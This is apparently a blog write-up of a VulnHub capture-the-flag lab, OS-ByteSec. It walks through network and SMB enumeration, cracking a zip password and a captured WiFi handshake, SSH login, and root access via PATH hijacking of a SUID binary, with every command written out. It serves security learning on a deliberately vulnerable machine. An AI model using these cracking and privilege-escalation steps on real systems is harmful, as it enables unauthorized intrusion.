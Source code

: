 ```yaml
---
published: false
title: Byt
---
```

---
published: true
title: Byte Sec
author: F3dai
image: 'https://imgur.com/DhdkXVo.png'
category: writeup
---

Flag : 2 Flag first user And second root. Learning : exploit, SMB, Enumration, Stenography, Privilege Escalation. We recommend that you use VirtualBox and not VMware for this VM 

**URL:** [OS ByteSec](https://www.vulnhub.com/entry/hacknos-os-bytesec,393/)

**Difficulty:** Intermediate

**Author:** Rahul Gehlaut

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![net](https://imgur.com/S2hIAEd.png)

We can identify the machine with the IP 192.168.56.116, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.56.116</pre>

![nmap](https://imgur.com/9wpz9b8.png)

We have identified ports 80 139 445 2525 are open. Ports 138 and 2525 are worth noting as they could be smb. Read more about Samba shares [here](https://en.wikipedia.org/wiki/Samba_(software))

To start, port 80 is open so we will investigate this port with a browser.

![web page](https://imgur.com/Dsajsd2.png)

At first glance, the bottom of the web page has the following text:

<pre>####################GET#####smb##############free </pre>

This is also seen in the page source:

![source](https://imgur.com/SvBX5zC.png)

This gives us a pretty obvious hint that there is probably samba running. Let's perform some enumeration based on this information with the tool [enum4linux](https://tools.kali.org/information-gathering/enum4linux). This tool is for enumerating information from Windows and Samba systems.  

<pre>enum4linux 192.168.56.116 </pre>

![enum4linux](https://imgur.com/vYR1FxN.png)

Known Usernames = administrator, guest, krbtgt, domain admins, root, bin, none.

Let's try and log into SMB with smbclient. This tool launches an ftp-like client to access SMB/CIFS resources on servers - [computerhope](https://www.computerhope.com/unix/smbclien.htm). 

Execute the following command:

<pre>smbclient //192.168.56.116/smb -U smb -p</pre>

To break this command down, we are specifying the //host/smb with user -U smb and -p enables a printer service rather than as a normal filespace service. 

![smb](https://imgur.com/1bH2oPc.png)

We are logged in. There is a file named safe.zip and main.txt which we will transfer to our local system with "get".

<pre>ls
get safe.zip
get main.txt</pre>

There doesn't seem to be anything on main.txt, let's have a look at the archive:

<pre>unzip safe.zip</pre>

![zip](https://imgur.com/xSLOmLR.png)

The .zip file seems to be password protected. There is a tool we can use to try and crack the password by brute forcing.

[fcrackzip](http://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html) is a zip file password cracker. 

<pre>fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip</pre>

To break down this command, -D specifies a dictionary attack, -p specifies the rockyou.txt dictionary and -u specifies the file we want to crack. The command will essentially try to decompress the zip archive using the passwords in the wordlist and return the password when successful.

![cracked](https://imgur.com/MWKqIPq.png )

A password has been found:

<pre>PASSWORD FOUND!!!!: pw == hacker1</pre>

Unzipping the file using the password gives us a .cap file. A .cap file is a packet capture file which can be analysed with traffic capture software such as Wireshark. To read more about this, [Life Wire](https://www.lifewire.com/cap-file-2622694) have a pretty good article on this. Let's open up the file with Wireshark.

Looking at the .cap file, we see the protocol 802.11 being used.
This Wireshark website explains the protocol that is seen on this traffic capture: [Wireshark](https://wiki.wireshark.org/CaptureSetup/WLAN#WLAN_.28IEEE_802.11.29_capture_setup)

After some research, we can identify WLAN as IEEE 802.11. These could be packets captured via WiFi. When analysing Wifi traffic, can often find a 3-way handshake whenever someone joins the network. We can try and crack this .cap file for any passwords.

Let's use aircrack-ng, a tool which accesses WiFi network security. Run the following command:

<pre>aircrack-ng user.cap -w /usr/share/wordlists/rockyou.txt</pre>

![aircrack](https://imgur.com/OMpwwRS.png)

Aircrack has found a password:

<pre>KEY FOUND! [ snowflake ]</pre>

There is a username that can easily be seen in the packet capture:

<pre>blackjax</pre>

![user](https://imgur.com/WlZqeW6.png)

Now that we have a username and password, let's try logging in with SSH. If you remember, a different port was open for ssh. 

<pre>cat nmap | grep ssh</pre>

SSH on port 2525.

<pre>ssh blackjax@192.168.56.116 -p 2525</pre>

![ssh login](https://imgur.com/Pp7yswG.png)

### Privilege Escalation

Let's upgrade our shell with the following command:

<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![python](https://imgur.com/mT2v1uP.png)

There are a few different home directories for users sagar, smb and blackjax:

![home](https://imgur.com/QtPdLtT.png)

This next section will be focusing on exploiting Set User ID (SUID). This is a good article about this if you want to read more:

[Recipe for Root](https://recipeforroot.com/suid-binaries/)

And another website for some priv esc with a section on SUID:

[Github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

The following command will identify any SUID enabled executables on the unix machine:

<pre>find / -user root -perm -4000 -print 2>/dev/null</pre>

![find](https://imgur.com/xbvuq3E.png)

For reference, these are a list of binaries native to Linux, meaning we should not investigate any of these:

<pre>ping
ping6
passwd
sudo
chfn
apring
gpasswd
chsh
chfn
mount
sudo
su
umount
mount
newgrp
pppd</pre>

One of the binaries identified from the command:

<pre>/usr/bin/netscan</pre>

This is evidently not native so let's have a closer look. Run the binary with the following command:

<pre>/usr/bin/netscan</pre>

![netscan](https://imgur.com/Gnd59wt.png)

Let's exploit this with the following commands:

<pre>cd /tmp
echo "/bin/bash" > netstat
chmod 777 netstat
export PATH=/tmp:$PATH
/usr/bin/netscan</pre>

These commands essentially create a file called netstat in /tmp with correct permissions. The export command marks an environment variable to be exported to child-processes. Then the netscan binary is run again.

![exploit](https://imgur.com/6fCCYU2.png)

And we are root, with root flag:

![root](https://imgur.com/Sxi9AWQ.png)
